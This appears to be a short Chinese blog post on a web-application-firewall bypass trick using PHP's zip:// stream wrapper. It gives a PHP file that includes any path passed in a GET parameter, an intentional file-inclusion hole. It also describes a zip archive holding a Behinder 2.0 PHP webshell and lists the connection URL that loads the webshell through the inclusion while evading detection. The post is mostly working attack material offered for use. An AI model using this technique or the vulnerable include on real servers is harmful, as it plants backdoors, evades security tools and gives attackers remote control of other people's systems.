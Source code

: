 ```yaml
---
layout: post
title: 过狗技巧——压缩流
tags: [技巧]
comments: true
---
```


.

>b.php

```
<?php

$file=@$_GET[x];
include $file;
```

>a.zip

```
打包Webshell，当前使用的是冰蝎2.0的PHP Webshell
```

 >冰蝎连接： http://192.168.74.141/Troj/b.php?x=zip://C:\xampp\htdocs\Troj\a.zip%23a.php

 ```
 不过要注意 zip://[文件绝对路径]#webshell
 ```

 ![zip](https://cijian00.github.io/img/bypass/zip_bypass.png)
